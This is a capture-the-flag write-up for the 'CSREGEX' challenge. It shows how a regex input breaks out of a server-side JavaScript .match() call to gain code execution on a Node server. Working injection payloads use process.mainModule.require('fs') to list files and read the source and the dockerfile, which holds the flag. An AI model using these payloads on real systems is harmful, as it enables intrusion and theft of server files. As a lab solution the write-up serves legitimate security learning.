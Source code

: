# writup for CSREGEX challange
description:
```
Stop pwning, start learning REGEX! This is such a fine way to ESCAPE the real world...

http://chal.cybersecurityrumble.de:9876

Author: molatho|nviso

(72 solves)
```

Table of contents
=================

<!--ts-->
   * [our process](#gh-md-toc)
   * [solution](#dependency)
<!--te-->

## how we got to the solution
=============================

we are greeted with a regex tesiting page, In the main box you can enter a regular expression, which will be evaluated and the output will be shown in the bottom

```
'A regular expression (shortened as regex or regexp; also referred to as rational expression) is a sequence of characters that define a search pattern. Usually such patterns are used by string-searching algorithms for "find" or "find and replace" operations on strings, or for input validation. It is a technique developed in theoretical computer science and formal language theory.\n\nThe concept arose in the 1950s when the American mathematician Stephen Cole Kleene formalized the description of a regular language. The concept came into common use with Unix text-processing utilities. Different syntaxes for writing regular expressions have existed since the 1980s, one being the POSIX standard and another, widely used, being the Perl syntax.\n\nRegular expressions are used in search engines, search and replace dialogs of word processors and text editors, in text processing utilities such as sed and AWK and in lexical analysis. Many programming languages provide regex capabilities either built-in or via libraries.\n\nhttps://en.wikipedia.org/wiki/Regular_expression'.match(/<user input regex>/gi)
```
this gets transmtted and evaluated on the server. 
Which makes the task pretty obvious, lets escape the .match expression and have server side (remote) code execution


z'.match()/gi); <javascript code>;/
- the first part `z'.match()/gi);` completes the string so it doesnt error
- the end `;/` is to comment out the rest, `/gi`



so we have an RCE, what next?

"fetch is not defined" -- we are running on node and not a web browser

lets see what we can and cannot do:
- we cannot call require
- `child_process` and `fs` arent imported
- we can use `return` to get any data back from the server

thats not much, but we found that we can infact call require by using `process.mainModule.require`

so lets build a little script:
we can return the contents of the current directory with the fs module
```js
//code:
let files = [];
const fs = process.mainModule.require('fs');
fs.readdirSync(".").forEach(file => files.push(file) );
return files;

// exploit:
z'.match()/gi);let files = [];const fs = process.mainModule.require('fs'); fs.readdirSync(".").forEach(file =>  files.push(file) ); return files;/

// result:
{"result":[".dockerignore","api.js","csregex","dist","dockerfile","index.js","leftover.js","node_modules","package-lock.json","package.json","regexer.js","requests.log","simple-fs.js"]}

```



## solution
===========
start reading the files to see if there is anything interesting in either one
```js
// code:
const fs = process.mainModule.require('fs');
const data = fs.readFileSync('api.js', 'utf8');
return(data);/

// exploit:
z'.match()/gi);const fs = process.mainModule.require('fs'); const data = fs.readFileSync('dockerfile', 'utf8'); return(data);/

//results
api.js: "var express = require('express');↵var router = express.Router();↵var RegexEr = require('./regexer')↵↵router.get('/regex/:pattern/:flags/:input', (req, res) => {↵    var params = {↵        pattern: req.params.pattern,↵        input: req.params.input,↵        flags: req.params.flags↵    };↵    try {↵        params.pattern = Buffer.from(req.params.pattern, 'base64').toString();↵        params.input = Buffer.from(req.params.input, 'base64').toString().replace(/\n/gm, "").trim();↵        params.flags = Buffer.from(req.params.flags, 'base64').toString();↵        RegexEr.process(params.pattern, params.flags, params.input)↵            .then((result) => res.status(200).send({result: result}))↵            .catch((err) => res.status(400).send({ error: err.message }));↵↵    } catch (ex) {↵        console.error(ex);↵        res.status(400).send(JSON.stringify(ex));↵    }↵↵});↵↵module.exports = router;"
dockerfile:"from mhart/alpine-node:12\nWORKDIR /app\nCOPY . .\nRUN apk update\nRUN apk upgrade\nRUN apk add bash\nRUN apk add curl\nRUN npm install\nRUN chown root:root .\nRUN chmod -R 755 .\nRUN adduser -D -g '' server\nRUN touch requests.log\nRUN chown server:server requests.log\nRUN chmod +s /usr/bin/curl\nRUN echo 'CSR{r363x_15_fun_r363x_15_l0v3}' > /root/flaggerino_flaggeroni.toxt\nRUN chmod 640 /root/flaggerino_flaggeroni.toxt\nRUN chmod 744 /root\nUSER server\nEXPOSE 8080\nCMD [ \"node\", \"index.js\"]
```

sure enought dockerfile had the flag
```
RUN echo 'CSR{r363x_15_fun_r363x_15_l0v3}'
```

